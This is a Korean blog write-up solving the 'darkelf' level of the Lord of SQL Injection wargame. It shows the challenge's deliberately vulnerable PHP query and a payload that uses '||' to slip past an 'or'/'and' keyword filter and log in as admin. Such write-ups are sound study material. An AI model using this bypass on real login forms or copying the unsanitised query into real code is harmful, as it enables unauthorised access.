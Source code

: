 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - darkelf 문제풀이"
excerpt_separator: <!--more-->
comments: true
tags:
  - Write-up
  - Lord of SQL Injection
---
```


다음 문제는 `darkelf` 이다.  

이번 문제는 이 전 문제와 동일한 풀이 방법으로 풀 수 있었다.  

<!--more-->

코드는 다음과 같다.  

```php
-------------------------------------------------------------
query : select id from prob_darkelf where id='guest' and pw=''
-------------------------------------------------------------

<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect();  
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_darkelf where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("darkelf"); 
  highlight_file(__FILE__); 
?>
```

이 전에는 `공백`에 필터링이 있었지만 이번에는 `or`과 `and`에 필터링이 있다.  

`worfman` 문제에서는 `공백`을 사용하지 않기 위해 `||`을 사용했었는데, 이번에는 `or` 문자열을 사용하지 않기 위해 `||`을 사용하면 될 것 같다.  

이 전 문제와 동일하게 URL 뒤에 아래와 같이 입력 해 주었다.  

```
?pw=1'||id='admin
```

```php
-----------------------------------------------------------------------------
query : select id from prob_darkelf where id='guest' and pw='1'||id='admin'
-----------------------------------------------------------------------------

Hello admin
DARKELF Clear!
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect();  
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_darkelf where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("darkelf"); 
  highlight_file(__FILE__); 
?>
```

`DARKELF Clear!!`